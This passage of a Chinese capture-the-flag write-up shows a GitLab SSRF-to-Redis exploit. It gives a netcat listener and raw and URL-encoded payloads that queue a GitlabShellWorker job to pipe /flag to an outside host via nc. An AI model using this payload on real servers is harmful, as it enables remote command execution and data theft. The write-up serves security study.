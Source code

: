 正如所看到的，这正是一直在寻找的类。现在这个`GitlabShellWorker`被调用时带有一些参数，比如`class_eval`和需要执行的真正的命令，在例子中，如下所示。

```
open('| COMMAND_TO_BE_EXECUTED').read
```

在实际`payload`中，将队列推送到`system_hook_push`并让`GitlabShellWorker`类运行命令。

现在有了探索所需的一切，可以制作出最后的`payload`并执行。在此之前，需要在主计算机(192.168.178.21)上设置一个`netcat listener`来接收该`flag`。

```shell
$ nc -lvp 1234
```

最终的payload如下所示。

```shell
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| cat /flag | nc 192.168.178.21 1234\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
exec
```

有一些重点需要注意:

* 在上面的`payload`中，`redis`命令的每一行前面都需要有一个空格–不知道为什么
* 正在读取`flag`并将其发送给我们的`netcat listener`
* 添加一个额外的`exec`命令，以便第一个命令正确执行，第二个命令将与下一行而不是第一行连接。这样做是为了`payload`的重要部分不会破裂

带有`payload`的最终`import URL`:

* 没有`url`编码之前的`payload`(可根据自己需要修改)

```shell
# 没有url编码之前的payload
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|cat /flag | nc 192.168.178.21 1234\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```

* `url`编码之后的`payload`

```shell
# url编码之后的payload
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20192%2E168%2E178%2E21%201234%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git
```
